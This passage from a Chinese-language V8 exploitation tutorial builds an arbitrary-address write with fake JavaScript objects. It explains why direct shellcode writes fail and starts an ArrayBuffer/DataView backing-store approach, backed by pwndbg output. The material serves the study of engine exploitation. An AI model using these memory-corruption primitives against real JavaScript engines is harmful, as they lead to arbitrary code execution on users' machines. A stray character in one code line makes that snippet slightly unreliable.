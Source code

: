 ## 任意地址写

同上一小节一样，只需要将最后的 return 修改为写入即可：

```javascript
var fake_array=[double_array_map,int_to_float(0x4141414141414141n)];4

function write64_addr(addr,data)
{
	var fake_array_addr=addressOf(fake_array);
	var fake_object_addr=fake_array_addr-0x10n;
	var fake_object=fakeObject(fake_object_addr);
	fake_array[1]=int_to_float(addr-8n+1n);
	fake_object[0]=data;
} 
```

## 写入shellcode

参考了几篇其他师傅们所写的博客后，会发现目前所实现的任意地址写并不能正常工作，大致原因如下：

> * 设置的 elements 地址为 addr-8n+1n，我们想要写 shellcode 的地址一般都是内存段在开头，那么更前面的内存空间则是未开辟的，写入时会因为访问未开辟的内存空间发生异常
> * 另外一个原因是，在尝试写 d8 的 free\_hook 或 malloc\_hook 时，由于其地址都是以 0x7f 开头，而 Double 类型的浮点数在处理这些高地址时会将低20位置零，导致地址错误(这一点尚未确定，仅作记录)

因此直接性的写入不太能够成功，但间接性的方法或许还是存在的，如果向某个对象中写入数据不需要经过 map 和 length，或许就能够顺利完成了。

不过 JavaScript 还真的提供了这样的操作：

```javascript
var data_buf = new ArrayBuffer(0x10);
var data_view = new DataView(data_buf);
data_view.setFloat64(0, 2.0, true);
%DebugPrint(data_buf);
%DebugPrint(data_view);
%SystemBreak();
```

```
pwndbg> job 0x1032080499e5
0x1032080499e5: [JSArrayBuffer]
 - map: 0x103208203271 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x1032081ca361 <Object map = 0x103208203299>
 - elements: 0x10320800222d <FixedArray[0]> [HOLEY_ELEMENTS]
 - embedder fields: 2
 - backing_store: 0x56504b1f89d0
 - byte_length: 16
 - max_byte_length: 16
 - detachable
 - properties: 0x10320800222d <FixedArray[0]>
 - All own properties (excluding elements): {}
 - embedder fields = {
    0, aligned pointer: (nil)
    0, aligned pointer: (nil)
 }
pwndbg> job 0x103208049a25
0x103208049a25: [JSDataView]
 - map: 0x103208202ca9 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x1032081c8665 <Object map = 0x103208202cd1>
 - elements: 0x10320800222d <FixedArray[0]> [HOLEY_ELEMENTS]
 - embedder fields: 2
 - buffer =0x1032080499e5 <ArrayBuffer map = 0x103208203271>
 - byte_offset: 0
 - byte_length: 16
 - properties: 0x10320800222d <FixedArray[0]>
 - All own properties (excluding elements): {}
```